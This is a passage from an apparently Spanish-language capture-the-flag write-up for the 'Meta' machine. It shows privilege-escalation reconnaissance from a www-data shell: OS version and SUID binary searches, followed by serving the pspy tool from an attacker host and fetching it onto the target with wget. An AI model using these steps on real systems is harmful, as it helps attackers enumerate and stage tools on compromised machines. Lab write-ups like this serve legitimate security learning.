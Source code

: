 ```bash
www-data@meta:/opt$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 10 (buster)
Release:	10
Codename:	buster
www-data@meta:/opt$ 
```

Nada interesante 

```bash
www-data@meta:/$ find / -user  www-data 2>/dev/null | grep -v proc
/var/cache/apache2/mod_cache_disk
/dev/pts/0
/run/lock/apache2
www-data@meta:/$ find \-perm -4000 2>/dev/null
./usr/bin/umount
./usr/bin/newgrp
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/gpasswd
./usr/bin/su
./usr/bin/fusermount
./usr/bin/mount
./usr/bin/chfn
./usr/bin/sudo
./usr/lib/eject/dmcrypt-get-device
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/openssh/ssh-keysign
www-data@meta:/$ 
```

Vamos a subir el `pspy` para ver tareas cron <https://github.com/DominicBreuker/pspy/releases>

```bash
❯ mv /home/miguel7/Descargas/pspy64 .
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.140 - - [18/Jun/2023 19:30:49] "GET /pspy64 HTTP/1.1" 200 -
```

```bash
www-data@meta:/dev/shm$ wget http://10.10.14.12:80/pspy64
--2023-06-18 21:30:48--  http://10.10.14.12/pspy64
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64              100%[===================>]   2.96M  52.7KB/s    in 53s     

2023-06-18 21:31:42 (56.8 KB/s) - 'pspy64' saved [3104768/3104768]

www-data@meta:/dev/shm$ 
www-data@meta:/dev/shm$ chmod +x pspy64
```
